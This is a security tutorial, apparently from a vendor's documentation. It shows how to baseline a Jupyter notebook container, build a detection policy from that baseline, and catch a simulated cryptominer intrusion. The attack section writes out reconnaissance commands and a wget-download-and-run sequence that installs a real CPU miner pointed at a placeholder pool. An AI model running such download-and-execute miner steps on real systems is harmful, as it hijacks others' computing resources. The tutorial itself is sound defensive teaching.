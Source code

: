 # Introduction to Policies — Cryptominer Attack

> This Scenario is loosely based on the [Silent Bob container attack](https://www.spyderbat.com/blog/silent-bob-container-attack-exposed).

## Setup

For this scenario, we have set up an unguarded Jupyter Notebook pod within the cluster. To start, let's see it in use, and create some "normal" activity that we will use later to generate a baseline fingerprint. After running the access script (`./scripts/access.sh`), you can reach the notebook from <a href="http://localhost:1234" target="_blank">localhost:1234</a>.

This is a standard Jupyter notebook, running the `jupyter/minimal-notebook` docker image. Select the Python 3 notebook, and run some commands in it.

> <i class="fa fa-fire"></i> **Tip:**
> 
> Use the play button or the keyboard shortcut `Ctrl-Enter` to run code within a code block in the Jupyter Notebook.

```py
print("Hello world!")
```
```
Hello world!
```

```sh
!pip install --upgrade pip setuptools wheel
```
```
...
Successfully installed pip-24.3.1 setuptools-75.3.0 wheel-0.44.0
```

Spyderbat is using the activity we just created to define a "fingerprint" for this container. A container fingerprint tracks all of the processes and connections created in a container during normal operation and can be used to define [Guardian Policies](https://docs.spyderbat.com/concepts/guardian). These policies are used by Spyderbat to detect when anomalous activity occurs, either alerting you or even killing the pod in response, depending on the configuration.

Let's take a look at these fingerprints in the Spyderbat UI. Navigate to the Fingerprints page (listed under Guardian in the navigation sidebar). This page lists all of the fingerprints created by Spyderbat for your account, one for each image you have deployed. Using the search bar in the top right, search for "Jupyter" to narrow down the list. To narrow the scope further, we can select the "cryptominer" namespace and "active" status. From there, select the fingerprints that we want (the `minimal-notebook` image), and click "Create Policy" on the bottom bar.

This will open the Policy creation window, allowing you to preview the policy created from the selected fingerprints. If necessary, you could edit the processes and connections that were autogenerated here. For our purposes, the autogenerated data should be good enough, so select "Next". Give the policy a name, but leave it in audit mode for now. Audit mode means the policy will be tracked, but will not actually create any responses, allowing for testing.

![The policy creation screen](./policy_creation.png)

Let's test out the policy by running a new command that is not present in the policy. Navigate back to the Jupyter Notebook interface and open a new "terminal" tab instead of Python. This alone should be enough to be detected, but let's run `ls` just to make sure we have something to look for. It will take a minute or two for the data to appear in the console, but we can navigate to the Guardian Policies page while we are waiting.

This page shows all of the existing (container) policies in your account. Select "View" on the new policy to open the Policy management window. Here, you can see the existing policy as well as all of the detected deviations. It also allows for editing the policy, such as setting it to enforce mode or adding new processes and connections to the policy.

Navigate to the "Deviations" tab. If you do not already see a list of deviations, refresh the page to ensure you have the latest data. After selecting all of the deviations, your policy graph should look similar to the one below.

![The created policy, and our new deviations](./policy_graph.png)

Now that we know the policy works, let's put it in enforce mode. De-select the deviant processes, switch to the "Policy Info" tab, select "Enforcing", and click Save. Since we left the default actions enabled, this policy will not kill deviant pods, only create red flags for deviant processes and connections.

## Attack

Next, let's simulate a malicious use of the Jupyter Notebook. Switch back to the Jupyter Notebook terminal, and run some exploration commands:

```sh
id
```
```
uid=1000(jovyan) gid=100(users) groups=100(users)
```
```sh
sudo -l
```
```
[sudo] password for jovyan: 
Sorry, try again.
[sudo] password for jovyan:^C 
sudo: 1 incorrect password attempt
```

> <i class="fa fa-fire"></i> **Tip:**
> 
> Use `Ctrl-C` to cancel password input.

```sh
ping -n 3 sourceforge.net
```
```
bash: ping: command not found
```
```sh
curl sourceforge.net > /dev/null
```
```
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
```

Looks like we don't have sudo access, there aren't many tools (like ping), but we can connect to SourceForge. Luckily, that is all we need to install a crypto miner. First, we can check that there aren't already any crypto miners installed on this system (given how poor the security would be if this were truly deployed):

```sh
ps -aux
```

Looks like we are alone. So, we can now install the miner:

```sh
wget https://sourceforge.net/projects/cpuminer/files/pooler-cpuminer-2.5.1-linux-x86_64.tar.gz/download
tar -xzf download
./minerd --url fakeminingpool.example.com -u ME -p passwd
```

> <i class="fa-solid fa-circle-info"></i> **Note:**
> 
> This is a real cryptominer, but is not configured to connect to a real service.

## Investigation

Now that we have executed the attack, let's go back to the policy deviations page. Select "View" on the policy, and add all of the deviations to the graph. Here, we can see all of the different commands and connections that did not fit into the existing fingerprint. 

![The new policy deviations](./attack_deviations.png)

Select "Start Process Investigation" on the bottom to see a more detailed view of the tracked deviations. Here, we can see a causal view of all of our attack actions within the container.

![A trace showing the executed attack](./attack_trace.png)

## Cleanup

To ensure that the flags generated by this policy don't interfere with the other demos, let's disable the Guardian policy. Navigate back to the Policies page, and view the policy. Turn off the "Enabled" switch in the Policy Info tab, and save the policy.

## Further Reading

- [Guardian and Interceptor Policies - Spyderbat Documentation](https://docs.spyderbat.com/concepts/guardian)
- [How to Lock Down Your Workloads With Guardian Policies Using Spyctl - Spyderbat Documentation](https://docs.spyderbat.com/tutorials/guardian/how-to-lock-down-your-critical-workloads-with-policies-spyctl)
- ['Silent Bob' Container Attack Exposed - Spyderbat Blog](https://www.spyderbat.com/blog/silent-bob-container-attack-exposed)
